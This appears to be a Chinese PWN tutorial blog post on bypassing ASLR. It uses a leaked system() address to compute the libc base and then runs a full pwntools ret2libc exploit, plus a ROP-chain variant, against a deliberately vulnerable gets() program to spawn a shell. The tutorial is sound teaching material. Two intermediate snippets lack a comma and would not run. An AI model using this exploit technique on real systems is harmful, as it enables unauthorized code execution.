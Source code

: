 ```yaml
---
title: '利用已泄漏信息绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c showLineNumbers
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

<Note>
  你的系统地址可能以不同的字符结尾。但这只是说明你用的是不同的 libc 版本。
</Note>

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）。

```python showLineNumbers
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 `ret2libc` 了。

```python showLineNumbers
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

LINK

自己尝试 :)

## 0x05 使用 pwntools 优化

```python showLineNumbers
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以将上面的 payload 写得更加 pwntoolsy。

```python showLineNumbers
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都会自动为你解析。

